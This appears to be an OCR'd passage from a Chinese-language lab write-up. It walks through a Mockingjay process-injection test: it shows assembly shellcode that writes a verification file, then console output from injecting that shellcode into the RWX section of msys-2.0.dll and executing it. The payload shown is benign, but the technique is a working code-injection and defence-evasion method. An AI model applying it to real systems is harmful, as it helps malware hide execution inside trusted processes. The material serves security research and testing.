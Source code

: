 ```c
mov qword [rsp+0x20], 2                    // CREATE_ALWAYS
mov qword [rsp+0x28], 0x80                 // FILE_ATTRIBUTE_NORMAL
mov qword [rsp+0x30], 0
mov rax, <CreateFileA_addr>
call rax
mov r15, rax

mov rcx, r15
lea rdx, [rip+content]                     // "Mockingjay Injection Verified!..."
mov r8, <content_len>
lea r9, [rsp+0x38]
mov qword [rsp+0x20], 0
mov rax, <WriteFile_addr>
call rax

mov rcx, r15
mov rax, <CloseHandle_addr>
call rax

xor rcx, rcx
mov rax, <ExitProcess_addr>
call rax
```

**结果**: ✅ 成功生成 327 字节 shellcode

---

### 步骤 3: 执行 Mockingjay 注入

**执行注入**:
```bash
$ ./build/mockingjay.exe "C:\Program Files\Git\usr\bin\msys-2.0.dll" fileverify_shellcode.bin

======================================
  Mockingjay Process Injection
  RWX Section Code Execution
======================================

[1] 读取 shellcode 文件
    文件：fileverify_shellcode.bin
    大小：327 字节
    ✓ Shellcode 读取成功

[2] 加载目标 DLL
    DLL：C:\Program Files\Git\usr\bin\msys-2.0.dll
    基地址：0x0000000210040000
    大小：19800064 字节
    ✓ DLL 加载成功

[3] 查找 RWX 节区
    节区名：/4
    起始地址：0x0000000210240000
    结束地址：0x0000000210243A00
    大小：14848 字节
    ✓ RWX 节区找到

[4] 写入 shellcode 到 RWX 节区
    ✓ 成功写入 327 字节到 0x0000000210240000

[5] 执行 shellcode
    调用地址：0x0000000210240000
```
